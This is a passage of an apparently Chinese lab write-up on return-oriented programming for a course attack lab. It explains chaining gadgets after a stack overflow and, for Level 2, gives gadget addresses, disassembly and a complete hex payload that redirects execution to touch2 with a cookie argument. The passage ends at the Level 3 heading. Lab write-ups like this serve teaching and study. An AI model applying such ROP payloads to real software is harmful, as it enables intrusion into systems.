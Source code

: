 大体思路为：通过栈溢出修改ret的地址，将其指向原程序中gadget 1的代码，gadget1最后要有c3也就是ret，这样就可以去执行gadget2的代码了，依次类推完成攻击。

### 2.1 Level 2

这里就直接记录答案了。注意到在两个指令之间可以有nop，也就是0x90，nop（no operation）只有把PC增加一的功能。

| 值                     | 注释                                                   | 栈帧名 |
| :--------------------- | ------------------------------------------------------ | ------ |
| 0x4017ec               | touch2函数地址                                         | test   |
| 0x4019a2  or  0x4019c5 | gadget2的地址。movq %rax, %rdi + ret     48 89 c7 + c3 |        |
| 0x59b997fa             | cookie的值                                             |        |
| 0x4019cc or 0x4019ab   | gadget1的地址。popq %rax  +  ret   58 + c3             |        |
| 00...00                | 填满getbuf                                             | getbuf |

```assembly
# gadget1
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
  
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

```assembly
# gadget2
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
  
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

于是乎就出来答案了：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 填满getbuf栈帧 */
ab 19 40 00 00 00 00 00 /* gadget1的地址 */
fa 97 b9 59 00 00 00 00 /* cookie */
a2 19 40 00 00 00 00 00 /* gadget2的地址 */
ec 17 40 00 00 00 00 00 /* touch2地址 */
```

### 2.2 Level 3
